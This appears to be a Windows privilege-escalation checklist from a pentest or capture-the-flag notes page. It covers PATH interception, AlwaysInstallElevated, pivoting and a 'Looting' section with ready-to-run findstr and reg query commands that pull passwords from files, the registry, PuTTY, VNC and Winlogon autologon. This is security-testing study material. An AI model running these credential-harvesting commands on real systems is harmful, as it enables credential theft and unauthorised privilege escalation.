 ### Abusing Misconfigurations

- [ ] Windows Subsystem for Linux (WSL)
- [ ] **$PATH** **Interception**: PATH contains a writeable folder with low privileges. - The writeable folder is _before_ the folder that contains the legitimate binary. Because (in this example) "C:\Program Files\nodejs\" is _before_ "C:\WINDOWS\system32\" on the PATH variable, the next time the user runs "cmd.exe", our evil version in the nodejs folder will run, instead of the legitimate one in the system32 folder.
- [ ] Check if **AlwaysInstallElevated** is enabled
- [ ] Restore A Service Account's Privileges with **FullPowers**. This tool should be executed as LOCAL SERVICE or NETWORK SERVICE only. https://github.com/itm4n/FullPowers

### Port Forwarding Internal Ports
- [ ] Use Chisel to access internal ports/services that may contain other vulnerable apps. 
### Common Exploits?

- [ ] PrinterNightmare
- [ ] https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#eop---common-vulnerabilities-and-exposure
### Looting
- [ ] Powershell history
- [ ] Cracking Powershell Secure Strings
- [ ] If you are admin, always check the recycle bin!!! you may find interesting files
- [ ] Powershell Transcript
- [ ] Password in Alternate Data Stream:
```
PS > Get-Item -path flag.txt -Stream *
PS > Get-Content -path flag.txt -Stream Flag

dir /s /r | findstr /e ":$DATA"
```
- [ ] Cleartext password found in the directory system
```
cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt
findstr /si password *.xml *.ini *.txt *.config 2>nul >> results.txt
findstr /spin "password" *.*
```
- [ ] Passwords in logs (apache, temp, php, mysql)
```
Search for a file in the entire directory:
	dir /s/b \myfile.txt
Search for a file in the curreny directory:
	dir /s/b myfile.txt
```
- [ ] Search the registry for key names and passwords
```
REG QUERY HKLM /F "password" /t REG_SZ /S /K
REG QUERY HKCU /F "password" /t REG_SZ /S /K

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword" 
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" # SNMP parameters
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" # Putty clear text proxy credentials
reg query "HKCU\Software\ORL\WinVNC3\Password" # VNC credentials
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```
- [ ] Decoding powershell secure string
- [ ] Passwords in unattend.xml
- [ ] creds in .git github repos commits history
- [ ] Cracking keepass databases